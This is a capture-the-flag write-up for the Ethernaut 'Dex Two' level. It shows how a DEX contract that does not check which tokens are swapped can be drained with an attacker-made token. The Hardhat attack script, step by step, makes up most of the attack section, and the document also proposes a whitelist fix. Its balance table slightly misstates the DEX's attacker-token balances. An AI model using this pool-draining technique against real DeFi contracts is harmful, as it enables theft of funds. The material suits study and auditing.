 # Ethernaut Challenge 23: Dex Two 🏴‍☠️

## Challenge Description

This level will ask you to break the `DexTwo` contract's liquidity pool and extract all token1 and token2 from the contract.

Unlike the previous Dex challenge, this time you need to:
1. Extract all token1 from DexTwo
2. Extract all token2 from DexTwo

The key is that you need to extract all tokens from the DexTwo liquidity pool!

## Contract Analysis

### Key Vulnerability Analysis

1. **Lack of Token Whitelist Verification**:
   - The `swap` function doesn't verify if `from` and `to` tokens are legitimate token1 or token2
   - Attackers can use arbitrary ERC20 tokens for swapping

2. **Price Calculation Formula Flaw**:
   ```solidity
   function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
       return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
   }
   ```
   - When attackers control the balance of the `from` token, they can manipulate the calculation result

3. **approve Function Limitation**:
   - SwappableTokenTwo's approve function prevents DEX from performing approve as owner
   - But doesn't affect new tokens created by attackers

## Attack Strategy

### Step 1: Create Malicious Token
```typescript
const attackerTokenFactory = await ethers.getContractFactory("SwappableTokenTwo");
const attackerToken = await attackerTokenFactory.deploy(
    contract.target, 
    "Attack on Token", 
    "AOT", 
    100000
);
```

### Step 2: Set Approval
```typescript
await contract.approve(contract.target, 100000);
await attackerToken["approve(address,address,uint256)"](attacker.address, contract.target, 100000);
```

### Step 3: Execute First Attack (Extract token1)
```typescript
// Transfer 1 malicious token to DEX
await attackerToken.transfer(contract.target, 1);

// Use 1 malicious token to exchange for all token1
// getSwapAmount(attackerToken, token1, 1) = (1 * 100) / 1 = 100
await contract.swap(attackerToken.target, token1, 1);
```

### Step 4: Execute Second Attack (Extract token2)
```typescript
// Transfer 8 more malicious tokens to DEX (making DEX malicious token balance 10)
await attackerToken.transfer(contract.target, 8);

// Use 10 malicious tokens to exchange for all token2
// getSwapAmount(attackerToken, token2, 10) = (10 * 100) / 10 = 100
await contract.swap(attackerToken.target, token2, 10);
```

## Detailed Attack Explanation

### Key Mathematical Calculations

1. **Initial State**:
   - DEX token1: 100
   - DEX token2: 100
   - DEX attackerToken: 0

2. **After First Attack**:
   - DEX token1: 0 ✅
   - DEX token2: 100
   - DEX attackerToken: 1

3. **After Second Attack**:
   - DEX token1: 0 ✅
   - DEX token2: 0 ✅
   - DEX attackerToken: 10

### Why Does the Attack Succeed?

1. **Lack of Token Verification**: DEX doesn't restrict swaps to only token1 and token2
2. **Price Manipulation**: Attackers have complete control over malicious token supply
3. **Formula Exploitation**: By precisely controlling the denominator (malicious token balance), desired exchange ratios can be achieved

## Security Recommendations

1. **Implement Token Whitelist**:
   ```solidity
   modifier onlyValidTokens(address from, address to) {
       require(from == token1 || from == token2, "Invalid from token");
       require(to == token1 || to == token2, "Invalid to token");
       require(from != to, "Cannot swap same token");
       _;
   }
   ```

2. **Strengthen Price Oracle**:
   - Use external price oracles
   - Implement slippage protection
   - Add minimum liquidity requirements

3. **Audit Transaction Logic**:
   - Check all token transfers
   - Verify balance changes before and after swaps
   - Implement reentrancy attack protection

## Run Commands

```bash
# Install dependencies
npm install

# Compile contracts
npx hardhat compile

# Run attack script
npx hardhat run scripts/interact.ts --network sepolia

# Run tests
npx hardhat test
```

## Learning Points

1. **Importance of Token Verification**: Any DeFi protocol should strictly verify supported tokens
2. **Security of Price Calculations**: Simple mathematical formulas can be maliciously exploited
3. **Liquidity Pool Attacks**: Attackers can influence prices by manipulating liquidity

This challenge demonstrates common vulnerability types in DeFi protocols, reminding us to consider various edge cases and potential attack vectors when designing financial contracts.
